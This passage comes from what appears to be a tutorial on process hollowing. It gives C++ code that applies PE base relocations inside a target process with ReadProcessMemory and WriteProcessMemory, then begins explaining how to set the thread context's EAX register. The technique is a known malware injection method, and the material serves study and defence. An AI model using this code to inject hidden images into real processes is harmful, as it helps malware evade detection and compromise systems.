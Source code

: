 ```cpp
 
      PBASE_RELOCATION_ENTRY pBlocks =
            (PBASE_RELOCATION_ENTRY)&pBuffer[dwRelocAddr + dwOffset];
 
      for (DWORD y = 0; y <  dwEntryCount; y++)
      {
            dwOffset += sizeof(BASE_RELOCATION_ENTRY);
 
            if (pBlocks[y].Type == 0)
                  continue;
 
            DWORD dwFieldAddress =
                  pBlockheader->PageAddress + pBlocks[y].Offset;
 
            DWORD dwBuffer = 0;
           
            ReadProcessMemory
            (
                  pProcessInfo->hProcess,
                  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                  &dwBuffer,
                  sizeof(DWORD),
                  0
            );
 
            dwBuffer += dwDelta;
 
            BOOL bSuccess = WriteProcessMemory
            (
                  pProcessInfo->hProcess,
                  (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                  &dwBuffer,
                  sizeof(DWORD),
                  0
            );
 
            if (!bSuccess)
            {
                  printf("Error writing memory\r\n");
                  continue;
            }
      }
}
```
 
## The Final Touches
With the source image loaded into the target process some changes need to be made to the process thread. First, the thread context must be acquired. Because only the EAX register needs to be updated the ContextFlags member of the CONTEXT structure can be set to CONTEXT_INTEGER.
 